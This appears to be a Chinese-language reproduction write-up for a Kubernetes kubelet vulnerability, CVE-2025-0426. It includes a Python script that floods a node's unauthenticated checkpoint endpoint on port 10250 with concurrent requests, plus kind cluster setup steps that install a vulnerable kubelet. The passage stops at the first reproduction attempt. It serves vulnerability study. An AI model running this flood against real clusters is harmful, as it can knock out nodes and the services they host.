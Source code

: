 ```markdown
import requests
import threading
import time
from concurrent.futures import ThreadPoolExecutor
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def send_checkpoint_request(node_ip, timeout=5):
    endpoint = f"http://{node_ip}:10250/checkpoint/default/nginx/nginx"
    try:
        response = requests.post(endpoint, verify=False, timeout=timeout)
        print(f"Response status: {response.status_code}")
    except Exception as e:
        print(f"Request failed: {str(e)}")

def main():
    target_node_ip = "192.168.0.100"  # 替换为目标节点IP
    max_workers = 50  # 并发线程数
    execution_time = 90  # 最大执行时间（秒）

    start_time = time.time()
    with ThreadPoolExecutor(max_workers=max_workers) as executor:
        while time.time() - start_time < execution_time:
            executor.submit(send_checkpoint_request, target_node_ip)
            time.sleep(0.1)  # 控制请求速率

main()
```

#### 复现
##### 环境搭建
使用`kind`搭建`kubernetes`集群，由于`kind`提供的`node`镜像一直使用的是`containerd 1.7.x`，不支持`checkpoint`功能，所以只能用它的最新镜像`kindest/node:v1.32.2`，该镜像使用了`containerd 2.0.x`。由于`kubernetes`在`v1.32.2`版本中修复了该漏洞，所以在创建集群后需要单独下载`v1.32.1`版本的`kubelet`进行替换。
- 创建`kind`配置
将集群的`10255`端口映射到宿主机，方便复现脚本访问
```yaml
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
nodes:
- role: control-plane
  extraPortMappings:
    - containerPort: 10255
      hostPort: 10255
      protocol: TCP
  kubeadmConfigPatches:
    - |
      kind: InitConfiguration
      nodeRegistration:
        kubeletExtraArgs:
          read-only-port: "10255"
```
- 创建集群
```bash
kind create cluster -n cve-2025-0426 --image kindest/node:v1.32.2 --config kindconfig.yaml
```
- 替换`kubelet`
```bash
wget https://cdn.dl.k8s.io/release/v1.32.1/bin/linux/amd64/kubelet
docker cp kubelet cve-2025-0426-control-plane:/usr/bin/
docker exec cve-2025-0426-control-plane systemctl restart kubelet
```
##### 复现尝试1